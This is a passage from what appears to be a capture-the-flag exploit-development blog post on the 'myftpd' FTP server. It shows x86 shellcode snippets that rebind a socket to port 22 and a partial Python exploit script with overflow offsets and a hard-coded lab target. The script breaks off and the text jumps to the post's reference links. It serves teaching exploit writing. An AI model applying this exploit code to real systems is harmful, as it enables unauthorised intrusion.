 The second parameter to a `bind` call is the socket address structure, which means the address stored in `ESP+4` is the one we're interested in. Here we can see that the value being stored here is `myftpd.00407434`, which is the global variable containing the socket address.

We're going to abuse the knowledge of the location of this thing and reuse it in our call. Note that we can't bind to the same socket, so we'll just increment the socket number prior to making our call. The address is `0x00407434`, which just happens to be `0x4000` past our current `EBX` value. We'll abuse this fact to get the value bumped quicky, and then we'll increment the port number:

{% codeblock ASM listing %}
MOV EDI, EAX          ; Store the socket handle somewhere else
MOV ECX, EBX          ; Copy EBX to ECX for munging
MOV CH, 0x74          ; Bump the address up to the right value
INC BYTE [ECX+3]      ; Update the port from 21 to 22
{% endcodeblock %}

So now we've bumped our port, and we have the `sockaddr` pointer in `ECX` we can now call bind. We know that the size of this structure is 16 bytes and have our socket handle ready in `EDI`. With our parameters ready to go, we can adjust `EBX` to point to `bind`, push our stuff onto the stack and make the call:

{% codeblock ASM listing %}
MOV BL, 0x54          ; Point EBX at `bind`
PUSH 0x10             ; Push 16 for the size of the struct
PUSH ECX              ; Push the sockaddr struct pointer
PUSH EDI              ; Push the socket handle
CALL EBX              ; Invoke bind
{% endcodeblock %}

OK, we're starting to get the hang of this. Let's see what our script looks like prior to running it this time:

{% codeblock sploit.py version 5 lang:python %}
#!/usr/bin/python

import socket, struct

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux